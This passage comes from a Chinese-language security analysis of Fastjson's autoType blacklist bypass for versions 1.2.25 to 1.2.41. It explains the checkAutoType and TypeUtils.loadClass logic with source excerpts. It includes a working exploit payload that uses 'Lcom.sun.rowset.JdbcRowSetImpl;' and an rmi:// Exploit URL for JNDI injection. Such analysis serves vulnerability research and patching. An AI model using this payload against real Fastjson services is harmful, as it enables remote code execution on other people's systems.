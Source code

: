 ```java
public static void normal()throws Exception{
    String userJson="{\"@type\":\"com.pinger.javasec.fastjson.User\",\"address\":\"QT\",\"age\":0,\"name\":\"p1n93r\"}";
    // 手动开启autoType
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    JSON.parse(userJson);
}
```

这里因为开启了autoType，所以和情况2一样，会进入 `if (autoTypeSupport || expectClass != null) {` 分支，也就是进行先白后黑的检测，这里都不会被匹配到，所以继续往下执行到 `if (autoTypeSupport || expectClass != null) {` 分支：

```java
if (autoTypeSupport || expectClass != null) {
    clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
}
```

可以看到，这里会load我们@type指定的类，并且返回。回顾这个过程，我们要想到达这里，需要满足以下几个条件：

- @type指定的类，不能在黑名单内；
- @type指定的类，能成功被 `TypeUtils.loadClass` 加载；

这里我们1.2.25<=version<=1.2.41版本常见的Payload：

```java
/**
 * 1.2.25<=version<=1.2.41
 * 1.2.25开始默认关闭了autotype支持
 * 此EXP : Bypass checkAutoType()中的黑白名单校验，但是还是需要开启autoType
 */
public static void exp3()throws Exception{
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String exp="{\n" +
            "  \"test\": {\n" +
            "    \"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\",\n" +
            "    \"dataSourceName\": \"rmi://127.0.0.1:1099/Exploit\",\n" +
            "    \"autoCommit\": true\n" +
            "  }\n" +
            "}";
    JSON.parse(exp);
}
```

这里看到@type指定的值为： `Lcom.sun.rowset.JdbcRowSetImpl;` ，这个类因为前面多了 `L` 字符，所以不在黑名单内，成功绕过了黑名单。但是这个类是如何被 `TypeUtils.loadClass` 加载的呢？我们直接看到 `TypeUtils.loadClass` 的源码片段：

```java
if (className == null || className.length() == 0) {
    return null;
}

Class<?> clazz = mappings.get(className);

if (clazz != null) {
    return clazz;
}

if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}

if (className.startsWith("L") && className.endsWith(";")) {
    String newClassName = className.substring(1, className.length() - 1);
    return loadClass(newClassName, classLoader);
}

```